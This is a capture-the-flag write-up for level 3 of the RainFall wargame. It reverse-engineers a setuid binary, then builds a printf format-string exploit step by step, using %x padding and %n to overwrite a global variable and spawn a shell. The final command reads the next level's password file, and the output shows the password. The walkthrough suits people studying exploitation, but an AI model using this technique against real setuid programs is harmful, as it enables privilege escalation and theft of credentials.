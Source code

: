 # Level 3


Lets see the assembly code :


```gdb
Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini

(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.

(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.


```

Seems it use fgets, so we cant overflow it by that, and it used system, i doubt it will be easy to reach it tho.


Lets reverse it with ghidra.

```c

void v(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}


void main(void)

{
  v();
  return;
}

```

We can't overflow the buffer, but the printf is direcly using the buffer as an input.

Its an obvious format attack string.

We can also see that the binary execute a shell, if m is == to 0x40.

Using GDB, its quite easy to make it execute the shell, but it cancel suid.

So we have to make that if goes true using the printf.


We must find the address of the m variable, and insert the value 0x40, but how do we do it using printf ?

First me must find 'm' addresses like so :


```gdb
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

m addresses = '0x804988c'


Using the format string attack, we are going to print this addresses, and in C when we print addresses, it get pushed to the stack.


```sh
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08'" | ./level3 
��
level3@RainFall:~$
```

Now we must get printf to point to this adresses, and for that, we are going to print the addresses using %x until it reach our m variable.

like so :

```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x'" | ./level3 
�200
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x'" | ./level3 
�200 b7fd1ac0
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x %x'" | ./level3 
�200 b7fd1ac0 b7ff37d0
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x %x %x'" | ./level3 
�200 b7fd1ac0 b7ff37d0 804988c
level3@RainFall:~$
```

So we need 3 %x to reach our variable, know we must write 0x40 to it.


In printf there is a format called %n, it basically write the number of characters to a pointers.

0x40 = 64, so we must write 64 character and then call %n.

```sh
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x %x' + 'A' * 64 + '%n'" | ./level3 
�200 b7fd1ac0 b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
level3@RainFall:~$
```

It doesn't work, because we already wrote character, everything counts, we ajust the number of A we wrote to 39 so it reach 64 roundly.

```sh
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x %x' + 'A' * 39 + '%n'" | ./level3 
�200 b7fd1ac0 b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
level3@RainFall:~$ 
```

Just need to keep a hand on STDIN and we get our flag

```sh
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08' + '%x %x %x' + 'A' * 39 + '%n'"; cat) | ./level3 
�200 b7fd1ac0 b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```